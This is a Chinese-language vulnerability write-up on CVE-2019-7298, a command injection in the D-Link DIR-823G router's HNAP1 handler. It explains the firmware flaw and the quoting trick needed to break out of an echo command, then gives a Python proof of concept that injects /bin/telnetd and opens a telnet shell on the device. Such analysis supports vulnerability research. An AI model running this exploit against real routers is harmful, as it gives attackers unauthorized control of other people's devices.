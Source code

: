 # （CVE-2019-7298）D-Link DIR-823G 命令注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3383](https://www.zhihuifly.com/t/topic/3383)

# （CVE-2019-7298）D-Link DIR-823G 命令注入漏洞

## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。在HNAP API函数处理请求之前，system函数执行了不可信的命令，触发该漏洞。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

在每次内核启动之后将启动init进程，init进程的启动时根据/etc/inittab这个文件赖在不同运行级别启动相应的进程或执行相应的操作。其中sysinit代表系统的初始化，只有系统开机或重新启动的时候，后面对应的process才会执行一次。

```
::sysinit:/etc/init.d/rcS 
```

在rcS中，先执行一些列mkdir和设置，执行了`goahead`。

> `goahead` 是一个开源的 `web` 服务器，用户的定制性非常强。可以通过一些 `goahead` 的 `api`定义 `url`处理函数和可供 `asp` 文件中调用的函数，具体可以看看官方的代码示例和网上的一些教程。

goahead的websUrlHandlerDefine函数允许用户自定义不同url的处理函数：

```
websUrlHandlerDefine(T("/HNAP1"), NULL, 0, websHNAPHandler, 0);
websUrlHandlerDefine(T("/goform"), NULL, 0, websFormHandler, 0);
websUrlHandlerDefine(T("/cgi-bin"), NULL, 0, websCgiHandler, 0); 
```

以上代表/HNAP1的请求交给websHNAPHandler函数处理，/gofrom的请求交给websFormHandler函数处理，/cgi-bin的请求交websCgiHandler函数处理。这些处理函数有统一的参数：

```
int (*fn)(webs_t wp, char_t *url, char_t *path, char_t *query)
wp    Web server connection handle.  
url   Request URL.  
path  Request path portion of the URL.  
query Query string portion of the URL. 
```

先了解/HNAP1请求的处理函数，在goahead中查找“HNAP1”字符串并通过xref定位处理函数sub_42383c

![image](img/ac3173a68d6b7133622fa05b83fb6c7c.png)

`sub_4238c`主要通过遍历全局的函数表来处理HNAP1接受的不同请求。function_list中每个元素的前四个字节为函数名，后四个字节为对应的函数地址。当找到在function_list中找到函数名与请求相同的字符串时，向/var/hnaplog中记录`param_7`的值，这个值但从汇编不太能看出，[hackedbylh](https://xz.aliyun.com/t/2834#toc-4)指出是post的报文，在运行过程中查看/var/hnaplog能猜出来。之后调用对应的函数地址处理相关请求。

这里无论处理请求的函数名是什么，在找到之后会通过snprintf输入字符且未做检查，之后直接system执行，存在命令注入漏洞。如果post请求是'`/bin/telnetd`'，就会先开启telnet服务器，再讲字符写入hnaplog。

![image](img/9ac68ea9df14ae0a26804f01d05202c0.png)

![image](img/1148128a8fbfb6e68e624d3e372824af.png)

另外需要注意，post的数据要加上引号，因为echo '%s' > /var/hnaplog中本身带了单引号，如果只是`/bin/telnet`，相当于

```
echo '`/bin/telnet`' > /var/hnaplog 
```

由于命令由引号括起，会当做字符串处理，不会执行命令

而

```
echo ''`/bin/telnet`'' > /var/hnaplog 
```

post中的两个引号分别与自带的两个引号组合，反引号没有嵌套在单引号中，会当做命令执行。

### poc

```
import requests
from pwn import *

IP=‘192.168.0.1’

command ="’`/bin/telnetd`’"

length = len(command)

headers = requests.utils.default_headers()

headers[“Content-Length”]=str(length)

headers[“User-Agent”] = “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36”

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/Login](http://purenetworks.com/HNAP1/Login)”’#此处的Login可以替换为任何在function_list中的函数名

headers[“Content-Type”] = “text/xml; charset=UTF-8”

headers[“Accept”]="*/*"

headers[“Accept-Encoding”]=“gzip, deflate”

headers[“Accept-Language”]=“zh-CN,zh;q=0.9,en;q=0.8”

payload = command

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text `p=remote(IP,23)

p.interactive()` 
```